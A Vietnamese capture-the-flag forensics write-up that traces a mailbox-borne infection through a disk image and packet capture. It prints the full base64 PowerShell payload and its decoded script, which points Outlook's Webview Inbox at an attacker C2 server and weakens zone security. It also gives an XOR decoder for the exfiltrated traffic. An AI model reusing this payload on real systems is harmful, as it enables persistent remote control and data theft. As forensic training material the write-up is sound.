# [Write up Lookout BKISC 2026](https://drive.google.com/file/d/157ASQE5F0U9-Br_XdEunGBNCBk45vwQC/view)

---

#### Description:

- While checking a monthly report sent by one of my employees, everything seemed ordinary. However, when I logged back in my mailbox the next day, something strange was happening on my computer

#### Hint:

- None

---

### Write-up

- Ta nhận được 1 file có đuôi .ad1 . Search 1 tí xem file này là gì.

  

- Đó là 1 file AccessData có thể đọc bằng [FTK imager](https://go.exterro.com/l/43312/2023-05-03/fc4b78?_gl=1*17sm0ng*_gcl_au*MTI4NzEwMTgyOS4xNzc4MzQ2Njc2LjE2NTc4MTYyNDMuMTc3ODM5NTM1OS4xNzc4Mzk1MzU5*_ga*MTg4OTU0ODgzLjE3NzgzNDY2Nzc.*_ga_826J8MZ862*czE3NzgzOTUzMjkkbzIkZzEkdDE3NzgzOTUzNzEkajE4JGwwJGg2OTE4MTk2MTQ.).



- Dựa vào description, ta suy đoán rằng nạn nhân bị atacker tấn công bằng mã độc thông qua mailbox. Với 1 thiết bị thông thường, họ thường dùng Gmail, Outlook,... để giao tiếp bằng mail.
- Trước hết ta thử kiểm tra những thư mục cơ bản như Download, Desktop, Picture để thu thập thêm thông tin.

  

  

- Ta thấy rằng trong thư mục desktop, ta bắt gặp được 1 file `capture.pcapng`. Trong thư mục downloads, ta thấy 1 file report đã bị xóa. Như vậy ta nghi ngờ report.txt được tải về và có thể bị bắt lại trong file capture.

  

- Đúng như ta đã dự đoán, ta thử export file này về để kiểm tra nội dung.

```text
Invoke-Command ([scriptblock]::Create([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('JAB0AGUAbQBwAFIAZQBnAEYAaQBsAGUAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAEkATwAuAFAAYQB0AGgAXQA6ADoARwBlAHQAVABlAG0AcABGAGkAbABlAE4AYQBtAGUAKAApACAAKwAgACIALgByAGUAZwAiAA0ACgANAAoAJAByAGUAZwBDAG8AbgB0AGUAbgB0ACAAPQAgAEAAIgANAAoAVwBpAG4AZABvAHcAcwAgAFIAZQBnAGkAcwB0AHIAeQAgAEUAZABpAHQAbwByACAAVgBlAHIAcwBpAG8AbgAgADUALgAwADAADQAKAA0ACgBbAEgASwBFAFkAXwBDAFUAUgBSAEUATgBUAF8AVQBTAEUAUgBcAFMATwBGAFQAVwBBAFIARQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwATwBmAGYAaQBjAGUAXAAxADYALgAwAFwATwB1AHQAbABvAG8AawBcAFcAZQBiAHYAaQBlAHcAXABJAG4AYgBvAHgAXQANAAoAIgB1AHIAbAAiAD0AIgBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4AMQA4ADkAOgA4ADMAOAA2AC8AcABsAHUAZwBpAG4ALwBzAGUAYQByAGMAaAAvACIADQAKACIAcwBlAGMAdQByAGkAdAB5ACIAPQAiAHkAZQBzACIADQAKAA0ACgBbAEgASwBFAFkAXwBDAFUAUgBSAEUATgBUAF8AVQBTAEUAUgBcAFMATwBGAFQAVwBBAFIARQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwATwBmAGYAaQBjAGUAXAAxADUALgAwAFwATwB1AHQAbABvAG8AawBcAFcAZQBiAHYAaQBlAHcAXABJAG4AYgBvAHgAXQANAAoAIgB1AHIAbAAiAD0AIgBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4AMQA4ADkAOgA4ADMAOAA2AC8AcABsAHUAZwBpAG4ALwBzAGUAYQByAGMAaAAvACIADQAKACIAcwBlAGMAdQByAGkAdAB5ACIAPQAiAHkAZQBzACIADQAKAA0ACgBbAEgASwBFAFkAXwBDAFUAUgBSAEUATgBUAF8AVQBTAEUAUgBcAFMATwBGAFQAVwBBAFIARQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwATwBmAGYAaQBjAGUAXAAxADQALgAwAFwATwB1AHQAbABvAG8AawBcAFcAZQBiAHYAaQBlAHcAXABJAG4AYgBvAHgAXQANAAoAIgB1AHIAbAAiAD0AIgBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4AMQA4ADkAOgA4ADMAOAA2AC8AcABsAHUAZwBpAG4ALwBzAGUAYQByAGMAaAAvACIADQAKACIAcwBlAGMAdQByAGkAdAB5ACIAPQAiAHkAZQBzACIADQAKAA0ACgBbAEgASwBFAFkAXwBDAFUAUgBSAEUATgBUAF8AVQBTAEUAUgBcAFMAbwBmAHQAdwBhAHIAZQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAEMAdQByAHIAZQBuAHQAVgBlAHIAcwBpAG8AbgBcAEUAeAB0AFwAUwB0AGEAdABzAFwAewAyADYAMQBCADgAQwBBADkALQAzAEIAQQBGAC0ANABCAEQAMAAtAEIAMABDADIALQBCAEYAMAA0ADIAOAA2ADcAOAA1AEMANgB9AFwAaQBlAHgAcABsAG8AcgBlAF0ADQAKACIARgBsAGEAZwBzACIAPQBkAHcAbwByAGQAOgAwADAAMAAwADAAMAAwADQADQAKAA0ACgBbAEgASwBFAFkAXwBDAFUAUgBSAEUATgBUAF8AVQBTAEUAUgBcAFMAbwBmAHQAdwBhAHIAZQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAEMAdQByAHIAZQBuAHQAVgBlAHIAcwBpAG8AbgBcAEkAbgB0AGUAcgBuAGUAdAAgAFMAZQB0AHQAaQBuAGcAcwBcAFoAbwBuAGUAcwBcADIAXQANAAoAIgAxADQAMABDACIAPQBkAHcAbwByAGQAOgAwADAAMAAwADAAMAAwADAADQAKACIAMQAyADAAMAAiAD0AZAB3AG8AcgBkADoAMAAwADAAMAAwADAAMAAwAA0ACgAiADEAMgAwADEAIgA9AGQAdwBvAHIAZAA6ADAAMAAwADAAMAAwADAAMwANAAoAIgBAAA0ACgANAAoAUwBlAHQALQBDAG8AbgB0AGUAbgB0ACAALQBQAGEAdABoACAAJAB0AGUAbQBwAFIAZQBnAEYAaQBsAGUAIAAtAFYAYQBsAHUAZQAgACQAcgBlAGcAQwBvAG4AdABlAG4AdAAgAC0ARQBuAGMAbwBkAGkAbgBnACAAVQBuAGkAYwBvAGQAZQANAAoAJgAgAHIAZQBnAC4AZQB4AGUAIABpAG0AcABvAHIAdAAgACIAYAAiACQAdABlAG0AcABSAGUAZwBGAGkAbABlAGAAIgAiAA0ACgBSAGUAbQBvAHYAZQAtAEkAdABlAG0AIAAtAFAAYQB0AGgAIAAkAHQAZQBtAHAAUgBlAGcARgBpAGwAZQAgAC0ARgBvAHIAYwBlAA0ACgA='))))
```

- Có thể thấy rằng đây là 1 khối lệnh được thực thi ngay lập tức 1 script hoặc 1 script block trên máy tính local, script được mã hóa thông qua base64, tiến hành decode nội dung base64 để xem script là gì.

```script
$tempRegFile = [System.IO.Path]::GetTempFileName() + ".reg"

$regContent = @"
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\16.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\15.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\14.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Ext\Stats\{261B8CA9-3BAF-4BD0-B0C2-BF04286785C6}\iexplore]
"Flags"=dword:00000004

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\2]
"140C"=dword:00000000
"1200"=dword:00000000
"1201"=dword:00000003
"@

Set-Content -Path $tempRegFile -Value $regContent -Encoding Unicode
& reg.exe import "`"$tempRegFile`""
Remove-Item -Path $tempRegFile -Force
```

- Nhờ [Gemini](https://gemini.google.com/share/e3b3f73d5f6e) giải thích script này.





- Vậy ta sẽ export file `NTUSER.DAT` và dùng RegistryExplore để phân tích các mục `HKEY_CURRENT_USER` có trong script block ở trên. Điều tra trong `\SOFTWARE\Microsoft\Office\16.0\Outlook\Webview\Inbox` thì ta đã tìm thấy 1 điều dẫn chuyển hướng có registry ta cần tìm.



- Ta sẽ filter được URL này trên file capture khi nảy để tìm xem các payload có điều hướng bằng URL này để tìm nội dung chính của malware.

```text
http.request.full_uri == "http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ"
```



- Ta thấy các gói có điều hướng post chứa payload chính của malware. Ta sẽ follow HTTP stream để điều tra gói này. Ta sẽ vide code để viết script tự động trích xuất nội dung bị đánh cắp và mã hóa bởi `C2 malware`. Key XOR được lưu trong UserInfo. Lấy Key = `o4WlfbKbx1xik1TgTQGeOQ` đó để decode.



```python
import re

def decrypt_specula_payload(hex_str, key):
    # Loại bỏ dấu ngoặc kép thừa nếu có
    hex_str = hex_str.strip('"').strip()
    decrypted = ""
    position = 0

    # Duyệt qua từng cặp 2 ký tự Hex (1 byte)
    for i in range(0, len(hex_str), 2):
        hex_byte = hex_str[i:i+2]

        if len(hex_byte) < 2:
            break

        try:
            cptx = int(hex_byte, 16)
        except ValueError:
            continue

        # Lấy ký tự tương ứng trong khóa giải mã
        key_char = key[position % len(key)]
        keyx = ord(key_char)

        # Giải mã XOR
        orgx = cptx ^ keyx
        decrypted += chr(orgx)
        position += 1

    return decrypted

def main():
    # ==============================================================================
    # BẠN CẦN THAY THẾ CHUỖI NÀY BẰNG KEY LẤY TỪ FILE NTUSER.DAT CỦA NẠN NHÂN
    # ==============================================================================
    SECRET_KEY = "o4WlfbKbx1xik1TgTQGeOQ"

    if SECRET_KEY == "o4WlfbKbx1xik1TgTQGeOQ":
        print("[!] CẢNH BÁO: Bạn chưa nhập SECRET_KEY. Kết quả giải mã sẽ là rác.")
        print("[!] Hãy mở file NTUSER.DAT trong FTK Imager, tìm value KEY và thay vào script.\n")

    # Đọc nội dung file cấu trúc HTTP Stream
    try:
        with open("malware.txt", "r", encoding="utf-8") as f:
            log_data = f.read()
    except FileNotFoundError:
        print("[Lỗi] Không tìm thấy file malware.txt. Hãy đặt file cùng thư mục với script.")
        return

    # Regex trích xuất nội dung POST: Các chuỗi Hex viết hoa, dài >= 6 ký tự, nằm trong ngoặc kép
    pattern = r'"([A-F0-9]{6,})"'
    payloads = re.findall(pattern, log_data)

    print(f"[*] Đã tìm thấy {len(payloads)} payloads dữ liệu bị đánh cắp.\n")

    for i, payload in enumerate(payloads):
        print(f"--- Payload {i+1} (Chiều dài: {len(payload)} ký tự Hex) ---")

        # Tiến hành giải mã
        decrypted_text = decrypt_specula_payload(payload, SECRET_KEY)

        # Bộ lọc in an toàn: Biến các ký tự điều khiển/rác thành dấu chấm để không hỏng terminal
        safe_print = ''.join(c if c.isprintable() or c in ['\n', '\r', '\t'] else '.' for c in decrypted_text)

        print(f"Raw Hex (rút gọn) : {payload[:60]}...")
        print("Dữ liệu giải mã   :\n" + safe_print + "\n" + "-"*50)

if __name__ == "__main__":
    main()
```

- Ta thu được thông tin nội dung

```
--- Payload 1 (Chiều dài: 774 ký tự Hex) ---
Raw Hex (rút gọn) : 3F55250908166B24175D1C0C190B74246E7E12162A231C395D2A5C420858...
Dữ liệu giải mã   :
Parent Folder: C:/Users
F: C:\Users\desktop.ini - Size: 0mb - LastModified: 07/12/2019 10:12:42
D: C:\Users\All Users - LastModified: 07/12/2019 10:30:39
D: C:\Users\BKISC - LastModified: 31/07/2025 11:53:48
D: C:\Users\Default - LastModified: 23/07/2025 16:24:11
D: C:\Users\Default User - LastModified: 07/12/2019 10:30:39
D: C:\Users\Public - LastModified: 07/04/2024 19:05:48

--------------------------------------------------
--- Payload 2 (Chiều dài: 6012 ký tự Hex) ---
Raw Hex (rút gọn) : 3F55250908166B24175D1C0C190B74246E7E12162A231C1B15272F31086F...
Dữ liệu giải mã   :
Parent Folder: C:/Users/BKISC
F: C:\Users\BKISC\NTUSER.DAT - Size: 9.8mb - LastModified: 01/10/2025 08:07:39
F: C:\Users\BKISC\ntuser.dat.LOG1 - Size: 2.5mb - LastModified: 07/04/2024 19:03:40
F: C:\Users\BKISC\ntuser.dat.LOG2 - Size: 2.6mb - LastModified: 07/04/2024 19:03:40
F: C:\Users\BKISC\NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TM.blf - Size: 0.1mb - LastModified: 07/04/2024 19:05:45
F: C:\Users\BKISC\NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TMContainer00000000000000000001.regtrans-ms - Size: 0.5mb - LastModified: 07/04/2024 19:03:40
F: C:\Users\BKISC\NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TMContainer00000000000000000002.regtrans-ms - Size: 0.5mb - LastModified: 07/04/2024 19:03:40
F: C:\Users\BKISC\NTUSER.DAT{e930ca84-6809-11f0-b5ec-8682da8d39ab}.TM.blf - Size: 0.1mb - LastModified: 23/07/2025 17:00:44
F: C:\Users\BKISC\NTUSER.DAT{e930ca84-6809-11f0-b5ec-8682da8d39ab}.TMContainer00000000000000000001.regtrans-ms - Size: 0.5mb - LastModified: 23/07/2025 22:16:10
F: C:\Users\BKISC\NTUSER.DAT{e930ca84-6809-11f0-b5ec-8682da8d39ab}.TMContainer00000000000000000002.regtrans-ms - Size: 0.5mb - LastModified: 23/07/2025 22:16:10
F: C:\Users\BKISC\ntuser.ini - Size: 0mb - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\.vscode - LastModified: 08/04/2024 10:00:34
D: C:\Users\BKISC\3D Objects - LastModified: 07/04/2024 19:05:48
D: C:\Users\BKISC\AppData - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Application Data - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\BinDiff Workspace - LastModified: 27/04/2024 07:58:00
D: C:\Users\BKISC\Contacts - LastModified: 07/04/2024 19:05:48
D: C:\Users\BKISC\Cookies - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Desktop - LastModified: 25/07/2025 15:41:26
D: C:\Users\BKISC\Documents - LastModified: 10/04/2024 18:17:00
D: C:\Users\BKISC\Downloads - LastModified: 01/10/2025 02:10:13
D: C:\Users\BKISC\Favorites - LastModified: 07/04/2024 19:05:48
D: C:\Users\BKISC\Links - LastModified: 07/04/2024 19:05:49
D: C:\Users\BKISC\Local Settings - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Music - LastModified: 07/04/2024 19:05:49
D: C:\Users\BKISC\My Documents - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\NetHood - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\OneDrive - LastModified: 23/07/2025 16:24:11
D: C:\Users\BKISC\OpenVPN - LastModified: 08/04/2024 20:35:47
D: C:\Users\BKISC\Pictures - LastModified: 07/04/2024 19:07:06
D: C:\Users\BKISC\PrintHood - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Recent - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Saved Games - LastModified: 07/04/2024 19:05:49
D: C:\Users\BKISC\Searches - LastModified: 07/04/2024 19:07:03
D: C:\Users\BKISC\SendTo - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Start Menu - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Templates - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Videos - LastModified: 07/04/2024 19:10:23

--------------------------------------------------
--- Payload 3 (Chiều dài: 932 ký tự Hex) ---
Raw Hex (rút gọn) : 3F55250908166B24175D1C0C190B74246E7E12162A231C1B15272F31084D...
Dữ liệu giải mã   :
Parent Folder: C:/Users/BKISC/Desktop
F: C:\Users\BKISC\Desktop\desktop.ini - Size: 0mb - LastModified: 07/04/2024 19:05:48
F: C:\Users\BKISC\Desktop\flag.py - Size: 0mb - LastModified: 25/07/2025 15:41:41
F: C:\Users\BKISC\Desktop\Obsidian.lnk - Size: 0mb - LastModified: 08/04/2024 08:05:44
F: C:\Users\BKISC\Desktop\Tor Browser.lnk - Size: 0mb - LastModified: 08/04/2024 08:41:37
D: C:\Users\BKISC\Desktop\PS_Transcripts - LastModified: 01/10/2025 02:11:40

--------------------------------------------------
--- Payload 4 (Chiều dài: 6 ký tự Hex) ---
Raw Hex (rút gọn) : 590C63...
Dữ liệu giải mã   :
684
--------------------------------------------------
--- Payload 5 (Chiều dài: 6 ký tự Hex) ---
Raw Hex (rút gọn) : 590C63...
Dữ liệu giải mã   :
684
--------------------------------------------------
--- Payload 6 (Chiều dài: 1368 ký tự Hex) ---
Raw Hex (rút gọn) : 4C141D1915166B100D5F581D035474043B3522453B3E4F53321846162307...
Dữ liệu giải mã   :
# Just run the code to get the flag lol

def RC4(key : bytes, plaintext : bytes):
    S = list(range(256))
    j = 0

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    ciphertext = []
    for char in plaintext:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        t = (S[i] + S[j]) % 256
        k = S[t]
        ciphertext.append(char ^ k)

    return bytes(ciphertext)

key = b"lookalikechicken"
plaintext = b';fa\x98\xc9\x13\xc8\x89\xda\x04\xed\xb6\x19\x98\xfdgF-\x14S\xa8+\xf50\xc4p\xf90\xb2&j\x081'
print(RC4(key, plaintext).decode())
--------------------------------------------------
--- Payload 7 (Chiều dài: 108 ký tự Hex) ---
Raw Hex (rút gọn) : 2B513B0912076B04115D1D534B726E3B012222173C0D2D7F1E3F253E0F07...
Dữ liệu giải mã   :
Delete file: C:\Users\BKISC\Desktop\flag.py - Success!
--------------------------------------------------
```

- Chạy đoạn code trên ta thu được flag được của đề bài
